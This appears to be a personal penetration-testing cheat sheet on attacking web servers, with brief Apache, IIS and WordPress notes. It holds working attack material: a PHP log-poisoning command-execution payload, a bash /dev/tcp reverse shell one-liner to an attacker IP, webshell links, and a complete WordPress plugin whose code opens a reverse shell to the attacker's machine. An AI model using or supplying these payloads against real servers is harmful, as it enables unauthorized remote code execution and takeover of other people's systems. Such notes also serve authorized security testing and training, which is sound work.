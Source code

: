 #### LOG POISONING
`<?php echo system($_GET['cmd']); ?>`
Then submit `&cmd=$command` in request i.e. `&cmd=whoami`

#### Shells
- https://github.com/WhiteWinterWolf/wwwolf-php-webshell
- `bash -c "bash -i >& /dev/tcp/$IP/4444 0>&1"`
	- can URL encode
- [revshells.com](revshells.com)


### Specific Web Servers
#### Apache
This might need to be in the /etc/apache2/apache2.conf file for php to execute:

```
LoadModule php_module /usr/lib/apache2/modules/libphp.so
    AddType application/x-httpd-php .php
```

#### IIS 
payload = .asp/.aspx shell

`C:\inetpub\wwwroot`
`iisstart.htm` = default welcome page


.htaccess for IIS servers: Similarly, developers can make directory-specific configuration on IIS servers using a web.config file. This might include directives such as the following, which in this case allows JSON files to be served to users:
```
<staticContent>
    <mimeMap fileExtension=".json" mimeType="application/json" />
    </staticContent>
```


### Wordpress
Initial enumeration: `wpscan --url http://$url --api-token $APIToken`
`/wp-admin` is the admin login page.
#### reverse shell Wordpress plugin
If you get into the admin page, you can upload malicious plugins. Plugins are defined as a zip file with 2 php files inside. (This may not be true provided the below syntax info is included in the php exploit file - so one file total with this or two files - one with this and one with the exploit). Syntax below:
```
	    <?php
	    
	    /**
	    * Plugin Name: Reverse Shell Plugin
	    * Plugin URI:
	    * Description: Reverse Shell Plugin
	    * Version: 1.0
	    * Author: Author Name
	    * Author URI: http://www.website.com
	    */
	    
	    exec("/bin/bash -c 'bash -i >& /dev/tcp/$kaliIP $port 0>&1'");
	    ?>
```
